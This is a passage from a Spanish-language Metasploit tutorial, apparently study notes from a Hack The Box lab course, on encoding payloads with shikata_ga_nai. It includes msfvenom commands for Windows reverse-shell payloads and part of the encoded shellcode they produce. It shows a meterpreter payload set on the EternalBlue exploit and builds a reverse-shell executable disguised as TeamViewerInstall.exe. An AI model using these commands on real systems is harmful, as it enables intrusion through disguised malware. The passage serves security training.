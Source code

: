 > Este ejemplo es codificado con shikata_ga_nai
{: .prompt-info }

```bash
pr0ff3@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"
```
Si os interesa saber más sobre la codificación shikata_ga_nai, puedes consultar el siguiente [enlace](https://hatching.io/blog/metasploit-payloads2/).

### Codificar payloads ya existentes

Se puede seleccionar un payload ya existente y codificarlo con msfconsole.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp


msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders

Compatible Encoders
===================

   #  Name              Disclosure Date  Rank    Check  Description
   -  ----              ---------------  ----    -----  -----------
   0  generic/eicar                      manual  No     The EICAR Encoder
   1  generic/none                       manual  No     The "none" Encoder
   2  x64/xor                            manual  No     XOR Encoder
   3  x64/xor_dynamic                    manual  No     Dynamic key XOR Encoder
   4  x64/zutto_dekiru                   manual  No     Zutto Dekiru
```
Si por ejemplo necesitamos inyectar un payload en un ejecutable:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```
Si quremos que la codficación se realice un numero determinad de veces, podemos hacerlo con el siguiente comando:
